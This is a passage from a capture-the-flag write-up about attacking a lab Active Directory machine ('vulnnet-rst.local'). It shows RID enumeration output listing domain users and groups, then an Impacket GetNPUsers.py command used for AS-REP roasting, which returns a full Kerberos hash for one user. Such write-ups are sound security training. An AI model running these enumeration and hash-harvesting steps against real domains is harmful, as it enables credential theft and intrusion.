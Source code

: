 ```c
[*] 10.10.146.147:445     - GROUP=Domain Controllers RID=516
[*] 10.10.146.147:445     - TYPE=4 NAME=Cert Publishers rid=517
[*] 10.10.146.147:445     - GROUP=Schema Admins RID=518
[*] 10.10.146.147:445     - GROUP=Enterprise Admins RID=519
[*] 10.10.146.147:445     - GROUP=Group Policy Creator Owners RID=520
[*] 10.10.146.147:445     - GROUP=Read-only Domain Controllers RID=521
[*] 10.10.146.147:445     - GROUP=Cloneable Domain Controllers RID=522
[*] 10.10.146.147:445     - GROUP=Protected Users RID=525
[*] 10.10.146.147:445     - GROUP=Key Admins RID=526
[*] 10.10.146.147:445     - GROUP=Enterprise Key Admins RID=527
[*] 10.10.146.147:445     - TYPE=4 NAME=RAS and IAS Servers rid=553
[*] 10.10.146.147:445     - TYPE=4 NAME=Allowed RODC Password Replication Group rid=571
[*] 10.10.146.147:445     - TYPE=4 NAME=Denied RODC Password Replication Group rid=572
[*] 10.10.146.147:445     - USER=WIN-2BO8M1OE1M1$ RID=1000
[*] 10.10.146.147:445     - TYPE=4 NAME=DnsAdmins rid=1101
[*] 10.10.146.147:445     - GROUP=DnsUpdateProxy RID=1102
[*] 10.10.146.147:445     - USER=enterprise-core-vn RID=1104
[*] 10.10.146.147:445     - USER=a-whitehat RID=1105
[*] 10.10.146.147:445     - USER=t-skid RID=1109
[*] 10.10.146.147:445     - USER=j-goldenhand RID=1110
[*] 10.10.146.147:445     - USER=j-leet RID=1111
```

I then copied that into a file, and then ran **grep** on it to just print the list of the users only:

![](<../../.gitbook/assets/image (157).png>)

For some reason, the **Impacket** download on my Kali Linux machine was lacking a lot of scripts. I then cloned the following repository: [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket). I noticed a couple write-ups referring to **GetNPUsers.py**, and so I decided to give that a try as well. I ran the following command to try to get hashes from the Users:

```c
python3 ../resources/impacket/examples/GetNPUsers.py -dc-ip 10.10.1.76  -usersfile user.txt vulnnet-rst.local/ 
```

In the previous command, the **vulnnet-rst.local** was the IP address of the machine. I had just changed that in **/etc/hosts**. I got the following result:

```c
Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User WIN-2BO8M1OE1M1$ doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:2e6e96f256650a147b730f5166f96dcc$ed8ede7f521badccabd77c10788c626f4dbd4457859707decb0e9795b3c3c97644a340d45e203a9ee96b097569174cc01255e5a69d1d9b3b5da3aaf8f61647e404f1543d63dbc1450f99c16848407a211a6045dfae0290745aeee5a7a3fea7669ed7fdd27ca05c1ba919a44b9d34f58fd18f12290b91b51fa508affbf037a90bf33aa14ef23f6d9caf2a8047823a0fd60df148ba2101e329b9c0b359cd7f74199fb51d97de224b4f1215400d76a9b59a0d04e4a59226ef904bd0c7946186010280f7a2bcf4262ffd9f5050c793ba5697f14308efb85d5e6b338ee2318b30046345cd236db3e3837f018218450303fafba1a32a7ad26a
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```
